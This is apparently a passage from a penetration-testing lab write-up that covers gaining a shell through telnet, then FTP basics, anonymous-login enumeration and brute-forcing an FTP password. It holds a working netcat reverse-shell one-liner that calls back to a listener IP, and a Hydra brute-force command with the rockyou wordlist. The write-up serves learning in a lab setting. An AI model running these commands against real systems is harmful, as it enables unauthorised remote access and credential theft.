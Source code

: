 Lastly we paste the msfvenom payload into the telnet terminal and run it as a command:
```
.RUN mkfifo /tmp/shha; nc 10.10.134.129 4444 0</tmp/shha | /bin/sh >/tmp/shha 2>&1; rm /tmp/shha
```

We now have a reverse shell on the target machine and can use the terminal runnig the netcat listener to run commands.

Remember to search for CVE's on:
- https://www.cvedetails.com/
- https://cve.mitre.org/
## File Transfer Protocol (FTP)
The *File Transfer Protocol (FTP)* allows the remote transfer of files over a network, using a client-server model.
**How does FTP work?**
A *FTP* session operates on two channels:
- command / control channel: transmits commands and responses
- data channel: transmits data

A FTP server can support active or / and passive connections:
- active: the client opens a port and listens; the server actively connects to the client
- passive: the serve opens a port and listens; the client actively connects to the server

Before a connection is completed the server validates the given login credentials and may open the session.
The standard port for FTP is port 21.
More information are [here](https://www.ietf.org/rfc/rfc959.txt).

### Enumerating FTP
To enumerate the FTP server we try to exploit an anonymous login, by connecting to the server and entering "anonymous" and no password.
To connect to the server you must have a ftp client installed if not use:
```
sudo apt install ftp
```

To connect use `ftp ip-address` for example :
```
ftp 192.168.1.101
```

We discover a file named "public_notice.txt", after downlaoding and reading it we might have a username, "mike".

### Exploiting FTP
We will try to bruteforce the password to "mike" account with the help of [Hydra](https://github.com/vanhauser-thc/thc-hydra). 
Hydra is a password cracking tool, which can be used against more than 50 protocols (including Telnet,RDP, SSH, FTP, HTTP, HTTPS, SMB), databases and more.
To crack the password we use:
```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.101 ftp
```
